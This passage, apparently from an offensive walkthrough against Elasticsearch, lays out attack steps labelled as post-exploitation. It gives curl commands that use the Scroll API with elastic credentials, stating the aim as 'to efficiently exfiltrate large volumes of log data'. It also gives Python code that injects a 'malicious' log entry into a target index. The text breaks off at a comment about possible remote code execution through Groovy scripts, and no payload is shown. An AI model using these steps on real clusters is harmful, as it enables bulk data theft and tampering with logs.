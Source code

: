 This will only search in field called `log_message` for the word password.

**Step 6: Scroll API for Large Data Exports**

If the volume of data is large, use the Scroll API for efficient data extraction:

```bash
# Step 6a: Initial Scroll Request
curl -XGET 'http://<elasticsearch_ip>:9200/<index_name>/_search?scroll=1m&size=1000' -H 'Content-Type: application/json' -d '{
  "query": {
    "match_all": {}
  }
}' -u 'elastic:<password>'

# Step 6b: Extract the scroll_id from the response

# Step 6c: Subsequent Scroll Requests (replace <scroll_id> with the actual ID)
curl -XGET 'http://<elasticsearch_ip>:9200/_scroll?scroll=1m&scroll_id=<scroll_id>' -u 'elastic:<password>'
```

*   **Explanation:** The Scroll API allows retrieving large amounts of data in batches. Step 6a initializes the scroll and returns the first batch and a `scroll_id`. Step 6c uses the `scroll_id` to retrieve subsequent batches until no more data is returned.
*   **Why:** To efficiently exfiltrate large volumes of log data.
*   **Expected Output:**  JSON responses containing batches of documents and the scroll_id to fetch the next batch.  The final response will not include any documents.
*   **Contribution:** Allows extracting the complete log dataset for offline analysis.
*   **Alternative:** Use `jq` or similar tools to parse the JSON responses and extract the relevant data.  Consider scripting this process for automation.

**Phase 3: Post-Exploitation (Example: Log Injection & Possible RCE)**

**Step 7: Injecting Malicious Log Entry**
This step requires the ability to inject logs. It could be done if a pod/application logs to the compromised system.

```python
import logging
import requests

def inject_log(message):
    """Simulates injecting a log message.  In a real scenario, this would be integrated into a compromised application."""
    logging.basicConfig(level=logging.INFO)
    logging.info(message)

def exploit_elasticsearch(log_message):

    index_name = "my_vulnerable_index"  # Replace with the target index
    elastic_url = "http://<elasticsearch_ip>:9200/{}/_doc".format(index_name) # Elasticsearch URL

    payload = {
        "message": log_message
    }

    try:
        response = requests.post(elastic_url, json=payload, auth=('elastic', '<password>')) # Authentication
        response.raise_for_status() # Raise HTTPError for bad responses (4xx or 5xx)
        print(f"Log injected successfully. Status code: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"Error injecting log: {e}")

# Example: Log injection payload (Potential RCE via Groovy script execution) - Requires specific configuration, deprecated in later ES versions
```